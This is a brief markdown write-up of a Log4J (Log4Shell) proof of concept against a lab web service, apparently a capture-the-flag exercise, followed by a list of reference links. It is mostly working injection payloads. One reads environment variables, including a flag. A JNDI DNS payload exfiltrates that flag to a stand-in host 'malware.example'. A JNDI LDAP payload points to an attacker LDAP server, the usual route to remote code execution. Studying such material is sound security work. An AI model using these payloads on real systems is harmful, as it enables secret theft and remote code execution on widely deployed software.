 # Write up for Log4J POC

write up for Log4J POC. Web at `http://172.25.0.21:39110/`.


## Log4J Example

```
req at ${date:MM-dd-yyyy} sys running on ${env:HOSTNAME}.
${env:flag}
```

## DNS

```
logread -f | grep malware\.example
${jndi:dns://172.26.0.1:53/${env:flag}.malware.example}
```

## LDAP

```

${jndi:ldap://172.25.64.20:10389/uid=1001,dc=example,dc=com}
```

## Bibliography

```
https://www.akamai.com/zh/blog/security/a-log4j-retrospective
https://log4shell.huntress.com/
https://github.com/mbechler/marshalsec
https://github.com/kozmer/log4j-shell-poc
https://www.anquanke.com/post/id/263325#h2-2
https://www.shiftleft.io/blog/log4shell-jndi-injection-via-attackable-log4j/
https://xie.infoq.cn/article/f2323c2c8ecca69017b869a0d
https://mp.weixin.qq.com/s/4MnOQGg7LBYCUE7BuuGfEQ
https://www.freebuf.com/vuls/317446.html
https://log4j2.huoxian.cn/layout
https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf
https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf
```